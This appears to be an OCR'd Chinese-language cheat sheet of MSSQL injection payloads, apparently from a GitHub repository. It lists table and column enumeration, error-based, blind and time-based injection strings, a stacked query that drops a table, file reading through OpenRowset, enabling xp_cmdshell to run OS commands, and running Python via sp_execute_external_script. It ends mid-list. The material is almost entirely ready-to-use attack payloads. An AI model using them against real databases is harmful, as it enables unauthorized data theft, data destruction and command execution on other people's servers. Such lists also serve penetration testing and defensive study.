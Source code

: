 	列出表
	$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
	[*] Profiles
	[*] Roles
	[*] Users

	列出字段
	$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
	[*] UserId
	[*] UserName

	导出数据
	$ SELECT  UserId, UserName from Users
 ##### 报错型注入
	整型 : convert(int,@@version)
	整型 : cast((SELECT @@version) as int)

	字符型   : ' + convert(int,@@version) + '
	字符型   : ' + cast((SELECT @@version) as int) + '
 ##### 盲注
	AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -

	AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
	AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 

	AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90

	SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

	WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
	SELECT message FROM data WHERE row = 1 and message like 't%'
 ##### 延时型
  	ProductID=1;waitfor delay '0:0:10'--
	ProductID=1);waitfor delay '0:0:10'--
	ProductID=1';waitfor delay '0:0:10'--
	ProductID=1');waitfor delay '0:0:10'--
	ProductID=1));waitfor delay '0:0:10'--

	IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'     comment:   --
 ##### 堆查询
  	ProductID=1; DROP members--
 ##### 读文件
  	需要ADMINISTER BULK OPERATIONS 或 ADMINISTER DATABASE BULK OPERATIONS 权限
	-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
 ##### 命令执行
	EXEC xp_cmdshell "net user";
	EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
	EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
	激活xp_cmdshell(sql server 2015中默认禁用状态)
	EXEC sp_configure 'show advanced options',1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	交互
	sqsh -S 192.168.1.X -U sa -P superPassword
	python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
	执行python脚本
	列出正在使用的用户
	EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
	EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
	打开并读取文件
